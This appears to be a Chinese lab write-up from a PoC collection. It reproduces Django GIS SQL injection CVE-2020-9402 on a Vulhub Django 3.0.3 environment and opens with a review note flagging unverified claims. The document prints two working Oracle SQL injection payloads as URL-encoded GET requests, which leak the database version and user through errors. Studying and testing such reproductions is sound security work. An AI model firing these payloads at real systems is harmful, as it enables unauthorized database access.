

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Test3.0.3; GIS/Oracle/user-controlled tolerance required; branch ranges omitted

代码与实验材料：Two GET tests with version/user error extraction; screenshots only

来源证据范围：Official Django March4,2020 release

- **证据待核（1）**：Calls tolerance key-name control although examples control value; missing view/schema/fix matrix。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Django GIS SQL 注入漏洞 CVE-2020-9402

## 漏洞描述

Django 在 2020 年 3 月 4 日发布了一个安全更新，修复了在 GIS 查询功能中存在的 SQL 注入漏洞。

参考链接：

- https://www.djangoproject.com/weblog/2020/mar/04/security-releases/

该漏洞需要开发者使用了 GIS 中聚合查询的功能，用户在 oracle 的数据库且可控 tolerance 查询时的键名，在其位置注入 SQL 语句。

## 环境搭建

Vulhub 执行如下命令编译及启动一个存在漏洞的 Django 3.0.3：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8000` 即可看到 Django 默认首页。

## 漏洞复现

### 漏洞一

首先访问 `http://your-ip:8000/vuln/`。

在该网页中使用 `get` 方法构造 `q` 的参数，构造 SQL 注入的字符串 `20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v$instance)) from dual) is null OR (1+1`

```
http://your-ip:8000/vuln/?q=20)%20%3D%201%20OR%20(select%20utl_inaddr.get_host_name((SELECT%20version%20FROM%20v%24instance))%20from%20dual)%20is%20null%20%20OR%20(1%2B1
```

可见，括号已注入成功，SQL 语句查询报错：



### 漏洞二

访问 `http://your-ip:8000/vuln2/`。 在该网页中使用 `get` 方法构造 `q` 的参数，构造出 SQL 注入的字符串 `0.05))) FROM "VULN_COLLECTION2" where (select utl_inaddr.get_host_name((SELECT user FROM DUAL)) from dual) is not null --`

```
http://your-ip:8000/vuln2/?q=0.05)))%20FROM%20%22VULN_COLLECTION2%22%20%20where%20%20(select%20utl_inaddr.get_host_name((SELECT%20user%20FROM%20DUAL))%20from%20dual)%20is%20not%20null%20%20--
```


---

> 来源：Threekiii/Awesome-POC
